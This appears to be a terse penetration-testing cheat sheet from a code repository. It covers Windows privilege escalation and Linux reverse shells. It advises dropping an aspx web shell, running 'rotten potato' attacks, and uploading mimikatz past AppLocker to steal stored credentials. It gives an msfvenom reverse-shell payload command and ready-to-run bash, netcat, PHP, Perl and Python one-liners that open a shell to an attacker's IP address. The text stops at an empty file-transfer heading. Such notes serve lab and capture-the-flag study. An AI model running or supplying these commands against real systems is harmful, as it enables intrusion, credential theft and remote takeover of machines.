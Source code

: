 
## Windows
http://www.fuzzysecurity.com/tutorials/16.html
(try to do something like linux also but some more too)

* windows-jaws-enum.ps1
* if we can write into IIS web server as current user, we can drop aspx shell, hit server on that and try to do `rotten potatoes` to priv esc. Requirement is web server is wriable.
* cronts, history etc ( given by jaws + PowerSploit )
* cmdkey /list ( get stored passwd )
	* if there are stored credentials, upload mimikats to server, move to some diretory where applocker allows it to run(google to find applocker bypass list),
* whoami /priv and check for rottenpotato:
	* SeImpersonatePrivilege
	* SeAssignPrimaryPrivilege
	* SeTcbPrivilege
	* SeBackupPrivilege
	* SeRestorePrivilege
	* SeCreateTokenPrivilege
	* SeLoadDriverPrivilege
	* SeTakeOwnershipPrivilege
	* SeDebugPrivilege
* /usr/src/metasploit-framework/msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=1001 -f exe -a x64 -o shell-1001.exe



# Linux


## Getting Reverse Shell

Attacker machine
```
nc -l 9001
```

Victim Machine
```
bash -i >& /dev/tcp/10.10.14.11/443 0>&1

OR

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.12.211 4444 >/tmp/f

OR 

php -r '$sock=fsockopen("10.11.0.167",4444);exec("/bin/sh -i <&3 >&3 2>&3");'

OR 

perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

OR

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.12.211",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

```
## Ways to transfer files
